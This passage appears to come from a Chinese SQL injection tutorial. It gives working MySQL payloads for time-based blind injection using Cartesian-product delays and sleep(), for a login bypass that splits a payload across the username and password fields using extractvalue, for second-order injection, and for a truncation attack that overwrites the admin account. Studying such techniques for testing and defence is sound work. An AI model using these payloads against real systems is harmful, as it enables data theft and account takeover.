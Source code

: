 ```sql
select count(*) from information_schema.tables A,information_schema.tables B,information_schema.tables C

select balabala from table1 where '1'='2' or if(ascii(substr(database(),1,1))>0,(select count(*) from information_schema.tables A,information_schema.tables B,information_schema.tables C),0)
```

笛卡尔积延时大约也是3秒

## HTTP头注入

注入手法和上述相差不多，就是注入点发生了变化

## HTTP分割注入

常见场景,登录处SQL语句如下，注释符号被过滤

```sql
select xxx from xxx where username=’xxx’ and password=’xxx’
```

```sql
# 方法一
username=1' or extractvalue/*
password=1*/(1,concat(0x7e,(select database()),0x7e))or'

SQL语句最终变为
select xxx from xxx where username='1' or extractvalue/*’ and password=’*/(1,concat(0x7e,(select database()),0x7e))or''

# 方法二
username=1' or if(ascii(substr(database(),1,1))=115,sleep(3),0) or '1
password=1
select * from users where username='1' or if(ascii(substr(database(),1,1))>0,sleep(3),0) or '1' and password='1'
```

## 二次注入

二次注入主要出现在`update`和`select`结合点，如注册之后在登录

攻击者构造的恶意payload首先会被服务器存储在数据库中，在之后取出数据库在进行SQL语句拼接时产生的SQL注入问题

## SQL约束攻击

假如注册时username参数在mysql中为**字符串**类型，并且有**unique属性**，设置了长度为VARCHAR(20)。

则我们注册一个username为admin[20个空格]asd的用户名，则在mysql中首先会判断是否有重复，若无重复，则会**截取前20个字符**加入到数据库中，所以数据库存储的数据为admin[20个空格]，而进行登录的时候，SQL语句会**忽略空格**，因此我们相当于覆写了admin账号。

# 基础绕过
